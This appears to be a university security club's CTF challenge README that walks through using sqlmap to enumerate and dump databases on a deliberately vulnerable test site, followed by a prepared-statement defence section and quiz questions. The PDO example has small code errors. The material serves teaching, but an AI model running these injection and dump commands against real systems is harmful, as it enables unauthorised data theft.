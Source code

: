 ## SQLi-sqlmap-challenge
* Author: Kitsios Marios
* Date: 29/11/2021
* Topic: SQLi tool sqlmap
* Challenge created specifically for the Cyber Security Club of University of Macedonia


## Install sqlmap
Instructions for installation of sqlmap here: https://github.com/sqlmapproject/sqlmap
```
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## Connect 
* Connect to http://testphp.vulnweb.com/

## Find a possible vulnerable location in the website
   * example: http://testphp.vulnweb.com/something.php?something=something
   ```
   If you cant find a potentially vulnerable location in the website
   base64 decode this to get a hint on where it is: aHR0cDovL3Rlc3RwaHAudnVsbndlYi5jb20vbGlzdHByb2R1Y3RzLnBocD9jYXQ9MQ== 
   ```
   
## Use sqlmap to enumerate the databases and to check if the GET parameter that is being passed is vulnerable to SQLi
   You can either use the url directly to begin the attack:
   ```
      sqlmap -u <url> --dbs
             -u Target URL (e.g. "http://www.site.com/vuln.php?id=1")
             --dbs Enumerate the databases
   ```
   Or you can:
   * Intercept the request with BurpSuite (or whatever you prefer)
   * Save the request in a .txt file (because sqlmap works best with a .txt file)
   ```
      sqlmap -u <url> -r <file_path.txt> --dbs
                      -r Specifies a file to read the get request instead of the url
   ```
   
## List all the tables of a database 
```
  sqlmap -u <url> -D <db_name> --tables
                  -D DBMS database to enumerate
                  --tables  Enumerate DBMS database tables
```

## List information about the columns of a table 
```
   sqlmap -u <url> -D <db_name> -T <table_name> --columns
                                -T Specify a table in a database
                                --columns Query the column names
```

## Retrieve column data from table
```
   sqlmap -u <url> -D <db_name> -T <table_name> -C <column_name> --dump
                                                -C Specify column name to dump data from
                                                --dump Rtrieves the data
```

## Prevent SQL Injection 
  * Reference: https://www.geeksforgeeks.org/use-sqlmap-test-website-sql-injection-vulnerability/
  * SQL injection can be generally prevented by using Prepared Statements . When we use a prepared statement, we are basically using a template for the code and analyzing the code and user input separately. It does not mix the user entered query and the code. A code vulnerability often exists, when the **input entered by the user is directly inserted into the code and they are compiled together, and hence we are able to execute malicious code.** For prepared statements, we basically send the sql query with a placeholder for the user input and then send the actual user input as a separate command. 
  
Consider the following php code segment. 
```
        $db = new PDO('connection details');
        $stmt = db->prepare("Select name from users where id = :id");
        $stmt->execute(array(':id', $data));
```
In this code, the user input is not combined with the prepared statement. They are compiled separately. So even if malicious code is entered as user input, the program will simply treat the malicious part of the code as a string and not a command. 

## Questions to be answered
  * What option can we use to change the user agent to tor ?
  * Which DBMS is being used and what version is it ? 
  * What are the names of the two databases ?
  * How many tables are there in the database 'acuart' ?
  * What kind of data type is being stored in the 'adsec' column of the table 'artists' ?
  * What is the 1st value of 'aname' column of the table 'artists' and the database 'acuart' ?
  
